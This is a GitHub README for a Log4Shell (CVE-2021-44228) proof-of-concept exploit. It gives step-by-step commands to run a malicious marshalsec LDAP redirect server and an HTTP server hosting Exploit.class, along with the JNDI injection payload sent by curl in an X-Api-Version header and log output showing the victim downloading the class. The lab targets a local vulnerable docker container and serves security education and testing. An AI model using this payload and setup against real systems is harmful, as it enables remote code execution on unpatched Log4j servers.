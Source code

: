 # Log4Shell POC (CVE-2021-44228)

The scope of this repository is to provide all the components needed to exploit CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/),   
and to show how to exploit it.

The ingredients needed to exploit this vulnerability are the following:
1. An **LDAP Server** that will redirect the vulnerable application to the exploit.
2. A **Vulnerable application** (Spring Boot web application vulnerable to CVE-2021-44228) using a vulnerable version of Log4J.
3. The Java **Exploit.class** (and the corresponding
Exploit.java file) that will be loaded by the Vulnerable application.
4. An **http server** from which the Vulnerable application will download the malicious Exploit.class

Credits:
- The **LDAP Server** has been pulled out from [mbechler](https://github.com/mbechler/marshalsec) Marshalsec repository.
- The **Vulnerable application** is the one provided by [christophetd](https://github.com/christophetd/log4shell-vulnerable-app).

Prerequisites:
- Maven
- Java
- Docker
- Python

## Running `LDAP Server` and `HTTP Server`
### `HTTP Server`
**1**. Move to `exploit` folder and spin up the http server by means of Python.
```
python3 -m http.server PORT
```
### `LDAP Server`
**1.** Move to `ldap_server` folder and build the `pom.xml`


```bash
mvn clean package -DskipTests
```

**2.** Move to `target` folder and spin up the server specifying `http_server_ip` and `http_server_port`

```
java -cp ldap_server-1.0-all.jar marshalsec.jndi.LDAPRefServer "http://http_server_ip:http_server_port/#Exploit"
```

*Note: this command runs the malicious ldap server by enforcing it to answer with the **Exploit.class** URI to every ldap query.*




## Running the `Vulnerable application`
**1.** Move to `log4shell-vulnerable-app-main` folder and build the vulnerable application docker image

```
docker build . -t vulnerable-app
```

**2.** Run the docker vulnerable application docker container

```
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

*Note: by default we're executing the vulnerable application on port 8080, feel free to change it.*

## Exploitation
Once the `vulnerable_application`, the `ldap_server` and the `http_server`
 are running, send a malicious http request to the vulnerable server.

```
curl VULNERABLE_APPLICATION_IP:8080 -H 'X-Api-Version: ${jndi:ldap://ldap_server_ip:1389/a}'
```

The `vulnerable_application` will log the payload and will perform an ldap query

```
2021-12-24 18:48:14.644  INFO 1 --- [nio-8080-exec-1] HelloWorld: Received a request for API version ${jndi:ldap://10.0.2.15:1389/a}
```

The `ldap_server` will answer with the Exploit.class URI

```
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.0.2.15:8443/Exploit.class
```

The `http_server` will receive a request to Exploit.class

```
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
172.17.0.2 - - [24/Dec/2021 19:48:14] "GET /Exploit.class HTTP/1.1" 200 -
```

Finally, we can check that the exploit created a new file on the victim filesystem. In this example we need to check the docker container filesystem.

![](./POC.png)

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/   
https://github.com/mbechler/marshalsec   
 https://github.com/christophetd/log4shell-vulnerable-app

## Contributors
[@CrashOverflow](https://github.com/CrashOverflow)
